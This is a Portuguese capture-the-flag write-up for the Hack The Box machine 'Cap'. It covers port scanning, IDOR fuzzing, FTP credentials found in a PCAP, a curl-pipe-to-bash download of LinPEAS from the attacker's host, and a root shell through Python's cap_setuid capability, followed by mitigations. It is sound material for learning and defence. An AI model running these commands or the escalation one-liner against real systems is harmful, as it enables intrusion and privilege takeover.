





# HTB — CAP
**Autor:** Gabriel Damas  
**Data:** 2024-10-24  
**IP (lab):** 10.10.x.x  
**Dificuldade:** Easy  
**Plataforma:** Hack The Box — Easy Machines

---

## TL;DR
- Vetor inicial: endpoint de download de capturas (PCAP) com controle inadequado (IDOR).  
- Evidência crítica: PCAP contém credenciais FTP em texto claro.  
- Foothold: login SSH com credenciais encontradas no PCAP (usuário `nathan`).  
- Escalada: exploit de capability atribuída ao interpretador Python (`/usr/bin/python3.8`) para obter shell com UID 0.  
- Flags: `user.txt` ✅ / `root.txt` ✅

---

## Objetivo
Encontrar as flags do usuário (`user.txt`) e do root (`root.txt`), documentar as etapas realizadas, explicar os comandos usados e apresentar recomendações de mitigação.

---

## 1. Enumeração inicial

### 1.1 Scan rápido de portas
Comando usado:
```bash
nmap -p- --min-rate=1000 -oN "/home/kali/Documents/ctfs/Hack The Box/easy machines/cap/outputs/scan-recon-ports" 10.129.244.213

Nmap scan report for 10.129.244.213

Host is up (0.21s latency).

Not shown: 64915 closed tcp ports (reset), 617 filtered tcp ports (no-response)

PORT   STATE SERVICE

21/tcp open  ftp

22/tcp open  ssh

80/tcp open  http
```

Este comando varre todas as portas TCP (`-p-`) com uma taxa mínima de envio (`--min-rate=1000`) e grava a saída em formato legível (`-oN`) em `outputs/scan-recon-ports`.

**Resultado relevante:** portas 21 (FTP), 22 (SSH) e 80 (HTTP) estavam abertas, indicando serviços que merecem investigação (transferência de arquivos, acesso remoto e interface web).

---
## 2. Descoberta do endpoint de download (fuzzing)

A interface web apresentou uma funcionalidade chamada **Security Snapshot (5 second PCAP + Analysis)** que permite baixar capturas (PCAP). A URL observada usa um identificador numérico para diferenciar capturas, por exemplo:

`http://10.129.244.213/data/3`

### 2.1 Preparar wordlist numérica

Foi gerada uma lista sequencial para testar múltiplos IDs:

`seq 1 1000 > numbers.txt`

**O que faz:** cria um arquivo `numbers.txt` com números de 1 a 1000, um por linha — utilitário simples para fuzzing sequencial.

### 2.2 Fuzzing com ffuf

Comando usado:

`ffuf -w /home/kali/Documents/ctfs/Hack The Box/easy machines/cap/outputs/numbers.txt -v -mc 200 -u http://10.129.244.213:80/data/FUZZ -o outputs/saida-fuzz-arquivos.json`

Este comando substitui `FUZZ` pelos valores da wordlist (`-w`), registra apenas respostas HTTP 200 (`-mc 200`) e salva resultados em JSON (`-o`). O `-v` é verbose para depuração.

Trecho do JSON de saída indica os endpoints acessíveis e o tamanho do conteúdo retornado (útil para priorizar downloads).

Saida JSON:

```json
"results": [

        {

            "input": {

                "FFUFHASH": "268a55",

                "FUZZ": "0004"

            },

            "position": 5,

            "status": 200,

            "length": 17144,

            "words": 7066,

            "lines": 371,

            "content-type": "text/html; charset=utf-8",

            "redirectlocation": "",

            "scraper": {},

            "duration": 226319365,

            "resultfile": "",

            "url": "http://10.129.244.213:80/data/0004",

            "host": "10.129.244.213:80"

        },

        {

            "input": {

                "FFUFHASH": "268a51",

                "FUZZ": "0000"

            },

            "position": 1,

            "status": 200,

            "length": 17147,

            "words": 7066,

            "lines": 371,

            "content-type": "text/html; charset=utf-8",

            "redirectlocation": "",

            "scraper": {},

            "duration": 245643763,

            "resultfile": "",

            "url": "http://10.129.244.213:80/data/0000",

            "host": "10.129.244.213:80"

        },

        {

            "input": {

                "FFUFHASH": "268a52",

                "FUZZ": "0001"

            },

            "position": 2,

            "status": 200,

            "length": 17144,

            "words": 7066,

            "lines": 371,

            "content-type": "text/html; charset=utf-8",

            "redirectlocation": "",

            "scraper": {},

            "duration": 251943708,

            "resultfile": "",

            "url": "http://10.129.244.213:80/data/0001",

            "host": "10.129.244.213:80"

        },

        {

            "input": {

                "FFUFHASH": "268a53",

                "FUZZ": "0002"

            },

            "position": 3,

            "status": 200,

            "length": 17144,

            "words": 7066,

            "lines": 371,

            "content-type": "text/html; charset=utf-8",

            "redirectlocation": "",

            "scraper": {},

            "duration": 255467448,

            "resultfile": "",

            "url": "http://10.129.244.213:80/data/0002",

            "host": "10.129.244.213:80"

        },

        {

            "input": {

                "FFUFHASH": "268a54",

                "FUZZ": "0003"

            },

            "position": 4,

            "status": 200,

            "length": 17153,

            "words": 7066,

            "lines": 371,

            "content-type": "text/html; charset=utf-8",

            "redirectlocation": "",

            "scraper": {},

            "duration": 279471286,

            "resultfile": "",

            "url": "http://10.129.244.213:80/data/0003",

            "host": "10.129.244.213:80"

        }

    ]
```

**Interpretação:** várias páginas retornaram 200 (ex.: `/data/0000`, `/data/0001`, `/data/0003`, `/data/0004`), o que indica que o endpoint responde para múltiplos identificadores — possível ponto de acesso a arquivos de outros usuários (IDOR).

---

## 3. Análise dos PCAPs

Os arquivos PCAP foram baixados a partir dos endpoints identificados e abertos no Wireshark para análise. Foi obsevado que o PCAP da página 0 continha os seguintes dados:

**Evidência (print):**

<p align="center">  </p> <p align="center"><em>Figura 1 — Credenciais FTP expostas (Wireshark)</em></p>

**Credenciais extraídas do PCAP:**

`USER NATHAN PASS Buck3tH4TFORM3!`


---

## 4. Acesso inicial (foothold)

Com as credenciais extraídas foi realizado acesso SSH:

`ssh nathan@10.10.x.x`

O comando autentica como usuário `nathan` via SSH. O acesso foi bem-sucedido; a flag do usuário foi encontrada em `/home/nathan/user.txt`.

**Evidência (print da flag):**

<p align="center">  </p> <p align="center"><em>Figura 2 — Primeira Flag do Desafio</em></p>

---

## 5. Enumeração local e busca por vetores de escalada

Para identificar oportunidades de escalada de privilégio, foi executada uma ferramenta de enumeração (LinPEAS) na máquina alvo. O fluxo usado foi:

1. Subir um servidor HTTP local para servir o script `linpeas.sh`:

`python3 -m http.server 8000`

**O que faz:** serve o diretório atual (linpeass) via HTTP na porta 8000; facilita download do script direto da máquina alvo.

2. Na máquina vítima, baixar e executar o script:

`curl http://<host-ip>/linpeas.sh | bash`

**O que faz:** obtém o script e executa a enumeração automatizada (linpeas busca configurações inseguras, binários SUID/capabilities, serviços, credenciais locais e muito mais).

**Evidência (print LinPEAS):**

<p align="center">  </p> <p align="center"><em>Figura 3 — Evidência LinPEAS</em></p>

Na saída foi identificado um achado crítico listado como:

`/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip`

- `/usr/bin/python3.8` → arquivo binário (Python 3.8).
    
- `cap_setuid,cap_net_bind_service` → _capabilities_ atribuídas ao arquivo:
    
    - `cap_setuid` : permite ao processo alterar UIDs (chamadas `setuid`/`setresuid`) sem precisar ser root.
        
    - `cap_net_bind_service` : permite ligar sockets em portas privilegiadas (<1024) sem root.
        
- `+eip` → flags das capabilities quando o binário é executado:
    
    - `e` = **effective** (efetiva),
        
    - `i` = **inheritable** (herdável),
        
    - `p` = **permitted** (permitida).  
        `+eip` significa que as capabilities estão nas três máscaras (permitidas, herdáveis e efetivas) ao executar o binário.

Signifcado: Ao executar o /usr/bin/python3.8, o processo recebe essas permissões e com isso é possivel escalar o privilégio para o ROOT utilizando `setuid(0)`

---
## 6. Exploração

Com as capabilities presentes, é possível abrir um shell com UID 0 a partir do interpretador Python.

```python
>>>import os 
>>>os.setuid(0) 
>>>os.system("/bin/bash")
```

**O que faz:** importa o módulo `os`, troca o UID do processo para 0 (`os.setuid(0)`) e substitui o processo atual por um shell (`/bin/bash`). Se as capabilities permitirem, o shell será com privilégios de root.

**Evidência (print da execução / shell root):**

<p align="center">  </p> <p align="center"><em>Figura 4 — Escalação de Privilégios com Python</em></p>


Após a elevação, a flag de root foi encontrada em `/root/root.txt` e verificada:

<p align="center">  </p> <p align="center"><em>Figura 5 — Flag 2</em></p>


---

## Análise das Vulnerabilidades Encontradas

### 1. IDOR (Insecure Direct Object Reference)

**Descrição:**  
A aplicação web possuía um endpoint `/data/<id>` que permitia o download de capturas de tráfego (PCAP) sem controle de acesso adequado. A numeração sequencial dos IDs (`0000`, `0001`, `0002`, etc.) possibilitou o acesso às capturas de outros usuários simplesmente modificando o número na URL.

**Impacto:**  
Essa falha expôs informações sensíveis de usuários legítimos — neste caso, credenciais FTP em texto plano. Em um ambiente real, isso poderia expor dados corporativos, tokens de autenticação, arquivos sigilosos ou comunicações internas.

**Causa raiz:**  
Ausência de validação de autorização no lado do servidor. O sistema assumia que, por o usuário ter acesso ao endpoint `/data/`, ele poderia consultar qualquer ID, sem verificar a propriedade ou permissão associada ao recurso solicitado.

**Cenário de exploração:**  
Com um simples _fuzzing_ utilizando o `ffuf` e uma wordlist gerada com `seq 1 1000`, foi possível mapear IDs válidos e baixar arquivos de outros usuários.

**Mitigação recomendada:**

- Implementar checagens de autorização por sessão, token ou ID de usuário antes de retornar o recurso solicitado.
    
- Evitar o uso de identificadores incrementais previsíveis — utilizar UUIDs ou identificadores opacos.
    
- Registrar tentativas de acesso indevidas e limitar requisições suspeitas via rate limiting.
    

---

### 2. Exposição de Credenciais em Texto Claro (FTP)

**Descrição:**  
As credenciais do usuário `nathan` foram capturadas dentro de um arquivo PCAP que registrava tráfego de rede em texto plano. O protocolo FTP (sem TLS) transmite logins e senhas sem criptografia.

**Impacto:**  
Qualquer pessoa com acesso à captura pôde visualizar as credenciais, reutilizá-las em outros serviços (como SSH) e comprometer a conta do usuário. Em ambientes corporativos, isso pode resultar em comprometimento lateral ou acesso a dados confidenciais.

**Causa raiz:**  
Uso de FTP sem camada de criptografia (FTPS/SFTP).  
Falta de separação entre ambientes de teste e produção e ausência de sanitização de dados antes do armazenamento ou compartilhamento de logs.

**Cenário de exploração:**  
Após baixar o arquivo PCAP, foi aplicado um filtro no Wireshark (`ftp || frame contains "password" || frame contains "USER"`), revelando o par `USER nathan` / `PASS Buck3tH4TFORM3!`.

**Mitigação recomendada:**

- Descontinuar o uso de FTP sem TLS.
    
- Implementar políticas que obriguem autenticação segura (SFTP/FTPS).
    
- Monitorar tráfego em busca de credenciais em texto claro e aplicar DLP (Data Loss Prevention).
    
- Sanitizar dados sensíveis antes de gerar logs e capturas.
    

---

### 3. Capability Insegura em `/usr/bin/python3.8`

**Descrição:**  
O LinPEAS apontou que o interpretador Python possuía capabilities que permitiam a troca de UID (`cap_setuid`) e o bind em portas privilegiadas (`cap_net_bind_service`) com flags `+eip`.  
Isso significa que qualquer usuário pode executar código Python capaz de alterar seu UID para 0 (root).

**Impacto:**  
Permite elevação direta de privilégio. O invasor pode usar o interpretador para abrir um shell com privilégios de root, comprometendo completamente o sistema.

**Causa raiz:**  
Configuração incorreta de capabilities no binário do Python. É incomum e desnecessário conceder `cap_setuid` a um interpretador genérico.

**Cenário de exploração:**  
O binário foi validado com:

`getcap /usr/bin/python3.8`

Em seguida, foi executado:

`/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash"`

O comando iniciou um shell com UID 0, resultando em acesso root.

**Mitigação recomendada:**

- Remover capabilities do binário (`sudo setcap -r /usr/bin/python3.8`).
    
- Auditar periodicamente as capabilities do sistema (`getcap -r /`).
    
- Restringir o uso de interpretadores genéricos com privilégios.
    
- Implementar monitoramento e alertas para execução de binários com capabilities elevadas.

### Tabela de vulnerabilidades — CAP (resumo técnico)

| Vulnerabilidade                                     | Descrição curta                                                                                                                  | CWE / OWASP                                                                                                                                                                                                                                 | Severidade (estimada)                                                                         | CVSS estilo / justificativa                                                      | Mitigação principal                                                                                                                                                                                  |
| --------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **IDOR (Insecure Direct Object Reference)**         | Endpoint `/data/<id>` retorna PCAPs sem checar propriedade/autorização; IDs previsíveis permitiram download de capturas alheias. | CWE-639 (Authorization Bypass Through User-Controlled Key). Mapeia para _Broken Access Control_ no OWASP. [cwe.mitre.org+1](https://cwe.mitre.org/data/definitions/639.html?utm_source=chatgpt.com)                                         | **Alta** — expõe dados sensíveis de outros usuários e permite ataques seguintes.              | 7.5 (impacto alto por exposição de dados; CVSS hipotético — depende do contexto) | Implementar autorização por recurso (checar sessão/owner), usar IDs opacos (UUIDs), aplicar rate-limit/monitoring.                                                                                   |
| **Transmissão de credenciais em texto claro (FTP)** | PCAP continha `USER`/`PASS` em cleartext; FTP sem TLS expõe credenciais a sniffing.                                              | CWE-319 (Cleartext Transmission of Sensitive Information). [cwe.mitre.org+1](https://cwe.mitre.org/data/definitions/319.html?utm_source=chatgpt.com)                                                                                        | **Alta/Crítica** — credenciais em texto claro permitem takeover de contas e lateral movement. | 8.0 (alto — credenciais comprometidas levam a comprometimento de conta)          | Descontinuar FTP sem TLS; usar SFTP/FTPS; criptografar tráfego; aplicar DLP e escanear PCAPs por credenciais antes de guardar/compartilhar.                                                          |
| **Capabilities inseguras em `/usr/bin/python3.8`**  | Binário Python tem `cap_setuid,cap_net_bind_service+eip`, permitindo `setuid(0)` via código Python — vetor direto de privesc.    | Mapeia para fraquezas de _improper privilege management_ / _execution with unnecessary privileges_ (CWE-269 / CWE-250 / categorias relacionadas). [cwe.mitre.org+1](https://cwe.mitre.org/data/definitions/269.html?utm_source=chatgpt.com) | **Crítica** — elevação direta para root; controle total do sistema.                           | 9.8 (muito alto — elevação direta para root significa tomada completa do host)   | Remover capabilities desnecessárias (`sudo setcap -r /usr/bin/python3.8`), auditar `getcap -r /`, aplicar controles de execução (AppArmor/SELinux), evitar privilégios em interpretadores genéricos. |


## 8. Recomendações de mitigação (priorizadas)

1. **Corrigir o IDOR no endpoint de download de PCAPs**
    
    - Implementar autorização por usuário/role no endpoint para garantir que cada captura só possa ser acessada por quem tem permissão.
        
    - Validar tokens/IDs no servidor — não confiar em um identificador numérico exposto sem checagem.
        
2. **Evitar tráfego de credenciais em texto claro**
    
    - Desencorajar uso de FTP sem TLS. Preferir SFTP/FTPS ou outros mecanismos autenticados e criptografados.
        
    - Se for necessário manter PCAPs para análise, mascarar ou rotular adequadamente antes de armazenamento público.
        
3. **Rever e remover capabilities desnecessárias**
    
    - Executar `setcap -r /usr/bin/python3.8` para remover capabilities do binário se não forem justificadas.
        
    - Auditar todo o sistema por capabilities atribuídas (`getcap -r /`) e remover aquelas sem justificativa.
        
4. **Aplicar princípio do menor privilégio**
    
    - Evitar atribuir privilégios elevados a interpretadores genéricos (ex.: Python). Preferir wrappers controlados para casos específicos (binding em portas pode ser feito por serviços gerenciados com permissões restritas).
        
5. **Detecção e monitoramento**
    
    - Habilitar alertas para downloads de PCAPs e acessos administrativos.
        
    - Registrar execuções suspeitas de binários com capabilities e geração de shells interativos.
        
6. **Higienizar artefatos antes de publicação**
    
    - Remover ou mascarar credenciais em artefatos (PCAPs, logs) antes de subir para repositórios públicos.
